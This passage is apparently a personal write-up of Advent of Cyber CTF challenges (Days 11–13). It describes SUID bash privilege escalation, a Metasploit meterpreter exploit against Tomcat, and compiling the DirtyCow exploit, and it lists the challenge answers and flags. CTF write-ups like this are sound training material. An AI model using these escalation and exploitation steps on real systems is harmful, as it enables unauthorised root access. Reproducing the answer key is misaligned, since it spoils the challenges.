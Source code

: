 		This is probably the trickiest task of the advent so far this year. The LinEnum script needs to be downloaded first and placed in a directory. From here start up a simple file server with python. for python2.7 - python -m SimpleHTTPServer 8080 and for python 3+ - python3 -m http.server 8080, both of these do the same thing and must be started from the same directory that your LinEnum script is located. Once started up log into the machine you are given the credentials for, and change the directory you have write permissions to like /tmp (your home directory has write permissions in this instance, but that is not always the case), and run wget http://<yourip>:8080/LinEnum.sh. This will upload the script to the remote server from your machine. One it is downloaded set the script to be executeable, and run it.  The ouput gives you some suggestions for suids that are of interest. On this server the the suid of insterst is bash. Using the getfobins site, it tells us that to use bash with a suid bit it should be run with bash -p. This retuns a bash prompt. From here you are running as root and can read the flag file in the root directory. 

## Day 12 - Networking: Ready, Set, Elf

	1. What is the version number of the web server?
		The web server is an Apache Tomcat 9.0.17 server this can be obtained from an nmap scan, sudo nmap -sS -sV --script vuln <IP>
	2. What CVE can be used to create a meterpreter entry onto the machine? 
		The same nmap scan as the previous question will show this information sudo nmap -sS -sV --script vuln <IP> 
	3. What are the contents of flag1.txt?
		thm{whacking_all_the_elves} I was able to acheive this by using metasploit. Once I started up metasploit I use the search feature and search for that cve specified. I then use the exploit that it recommends. Set all the options in the challenge description, most importantly the targeturi, rhosts, and lhost. Then exploit the machine. It will get a meterpreter session and you can read the flag from this session. One step further, I was able to choose the ElfWhacker.exe process and migrate to it sucessfully, which escalated my privileges to NTSYSTEM

## Day 13 - Special by John Hammond: Coal for Christmas

	1. What old, deprecated protocol and service is running?
		nmap -sCV <IP> will display telnet is running on this machine
	2. What credential was left for you?
		clauschristmas - this can be found by running telnet <IP>
	3. What distribution of Linux and version number is this server running?
		Running cat /etc/*release will reveal the version to be Ubuntu 12.04
	4.Who got here first?
		grinch - this can be found by running cat cookies_and_milk.txt
	5. What is the verbatim syntax you can use to compile, takenfrom the real C source code comments?
		gcc -pthread dirty.c -o dirty -lcrypt - I was able to find this by searching for dirtycow sourcecode. I was able to cope that code to a .c file and upload it to the server using the python SimpleHTTPServer module. Once the file was uploaded to the server, the comments in the source code mentioned what to run to compile the file.
	6. What new username was created, with the defaul operation of the real C source code?
		firefart - this can be seen in the output from the script
	7. What is the MD5 hash output?
		8b16f00dd3b51efadb02c1df7f8427cc - this was found by changing to the root directory and running cat, on the file called message_from_the_grinch.txt in this directory and following the instructions

## Day 14 - Special by TheCyberMentor: Where's Rudolph? - OSINT
